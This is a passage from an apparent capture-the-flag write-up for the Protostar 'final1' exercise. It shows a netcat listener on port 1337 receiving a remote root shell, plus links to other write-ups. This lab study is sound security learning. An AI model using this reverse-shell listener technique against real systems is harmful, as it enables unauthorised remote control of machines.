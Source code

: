 And I listen to port 1337 in my Kali.

```
root@Kali: ~# nc -l -p 1337
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

##### Reference
<https://thesprawl.org/research/exploit-exercises-protostar-final/#final1>  
<https://www.mattandreko.com/2012/02/05/exploit-exercises-protostar-final-1/>
